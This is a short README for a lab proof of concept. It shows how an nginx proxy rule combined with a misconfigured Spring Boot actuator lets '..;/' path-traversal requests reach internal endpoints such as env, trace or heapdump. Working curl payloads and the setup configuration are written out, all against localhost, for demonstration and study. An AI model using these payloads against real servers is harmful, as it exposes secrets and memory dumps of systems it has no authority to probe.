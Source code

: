 This is a PoC that combines Orange Tsais research about "Breaking parser logic" and an unsecure configuration of spring-boot-starter-actuator as documented in https://www.tutorialspoint.com/spring_boot/spring_boot_actuator.htm


1. cd spring; mvn clean install
2. cd target; java -jar orange-actuator-poc-0.0.1-SNAPSHOT.jar
3. test java service: `curl http://localhost:8080/api/hello`
4. install nginx and change nginx server listen port to 8081
5. add this to your nginx configuration to add a proxy rule:
```
	location /orange {
                proxy_pass http://localhost:8080/api;
                proxy_redirect     off;
                proxy_set_header   Host $host;
	}
```
6. start nginx
7. curl localhost:8081/orange/..;/env
8. curl localhost:8081/orange/directory/..;/..;/env

Nginx will send the request to the spring boot application at `http://localhost:8080/api/directory/..;/..;/env`
The path traversal makes that a request to `http://localhost:8080/env`
"env" can be substituted by any default actuaor endpoint, e.g. trace or heapdump
